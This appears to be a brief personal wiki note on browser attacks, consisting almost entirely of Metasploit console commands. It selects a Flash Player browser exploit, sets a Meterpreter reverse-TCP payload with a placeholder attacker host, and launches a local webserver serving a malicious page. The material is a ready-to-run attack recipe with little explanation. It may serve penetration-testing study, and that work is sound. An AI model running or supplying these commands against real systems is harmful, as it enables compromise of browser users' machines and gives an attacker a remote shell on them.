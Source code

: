 <!-- TITLE: Browserattacks -->
<!-- SUBTITLE: A quick summary of Browserattacks -->

# Browser Attack

use exploit/windows/browser/adobe_flashplayer_newfunction
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST blah
exploit
(starts local webserver with malicious page)